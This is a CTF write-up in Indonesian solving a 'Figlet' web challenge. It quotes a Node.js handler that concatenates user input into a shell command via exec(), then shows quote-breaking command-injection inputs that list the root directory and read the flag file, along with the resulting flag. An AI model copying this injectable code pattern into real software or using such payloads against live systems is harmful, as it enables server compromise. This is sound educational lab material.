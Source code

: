 # **FIGLET**
Figlet adalah sebuah program komputer yang digunakan untuk menghasilkan teks berukuran besar dalam gaya seni ASCII. Nama "Figlet" sendiri merupakan kependekan dari "Frank, Ian, and Glenn's LETters". Program ini dibuat oleh sekelompok programmer pada tahun 1991 dan telah menjadi populer di kalangan komunitas pengguna Unix dan Linux.
Figlet dapat mengubah teks biasa menjadi teks berukuran besar dengan berbagai gaya huruf yang kreatif, seperti huruf-huruf berkontur, huruf-huruf berbayang, huruf-huruf yang terdiri dari karakter-karakter kecil, dan banyak lagi. Program ini menawarkan berbagai pilihan gaya huruf yang bisa dipilih sesuai dengan preferensi pengguna.

Gambar Logo 
## **About the challenge**
Pada challenge kali ini, probleset membuatkan sebuah website untuk temannya yang menyukai seni ASCII. Web tersebut setelah dianalisis memiliki vulnerability pada inputannya.

Gambar logo
## **Solution**
- Buka App.js yang diberikan oleh probleset dan analisis code tersebut.
- Pada kode yang diberikan, terdapat potensi kerentanan terkait dengan Command Injection. Potensi kerentanan ini terdapat pada bagian code berikut:
```javascript
app.post('/figlet', (req, res) => {
    let cmd = 'timeout 1 figlet \'' + req.body.text + '\'';
    exec(cmd, (err, stdout, stderr) => {
        if (err) {
            console.log(stderr);
            res.send('Error');
        } else {
            res.send(stdout);
        }
    });
});
```
Disini saya dapat mengirimkan teks yang mengandung karakter khusus seperti tanda petik tunggal (') atau karakter pemisah perintah (seperti ; atau &&) yang dapat mengubah arti perintah yang dieksekusi. Contohnya seperti ini :
```
hello';ls /;echo '1
```
Output dari teks yang saya masukkan diwebsite tersebut seperti ini :

Image

Dapat dilihat flag nya dengan format[kodeacak].txt, saya bisa read flag tersebut dengan kode dibawah ini :
```
hello';cat /flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt;echo '1
```
And we got flag
```
ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}
```
